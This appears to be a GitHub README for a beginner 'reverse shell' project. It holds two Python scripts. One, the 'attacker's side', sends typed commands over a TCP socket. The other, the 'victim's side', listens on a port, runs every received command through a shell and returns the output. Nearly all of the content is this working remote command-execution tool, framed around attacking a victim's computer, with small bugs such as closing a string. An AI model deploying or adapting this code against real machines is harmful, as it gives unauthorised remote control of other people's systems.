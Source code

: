 # Revshell_Project
## script from attacker's side

<p>&nbsp;</p>

```bash
import socket
import subprocess

ip = input("enter ip address")
port = int(input("enter the port number"))

try:
    # we going to create a tcp ipv4 socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    cmd = input("$")  # taking input
    while cmd != 'quit':
        # send to vitim
        s.send(cmd.encode())

        # receiving 2048 bytes
        result = s.recv(2048).decode()
        print(result)
        cmd = input("$")
    s.close()

except:
    print("something error has occurred")
```
<p>&nbsp;</p>
<p>&nbsp;</p>

## script running on vitim's side

```
bash


import socket
import subprocess

#listening for ipv4 and tcp
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('127.0.0.1', 1234))

#max 2 connections
s.listen(2)

client, addr = s.accept()
cmd = client.recv(2048).decode()

while cmd != 'quit':
    print(cmd)
    cmd = str(cmd)

    result = subprocess.check_output(cmd, shell=True)
    print(result)
    client.send(result)
    cmd = client.recv(2048).decode()
cmd.close()
s.close()
```

<p>&nbsp;</p>

### shell created from attacker's side
<img src="Picture1.png">

<p>&nbsp;</p>

### command running on the victim's computer
<img src="Picture2.png">

<p>&nbsp;</p>

### ipconfig 
<img src="Picture3.png">
          
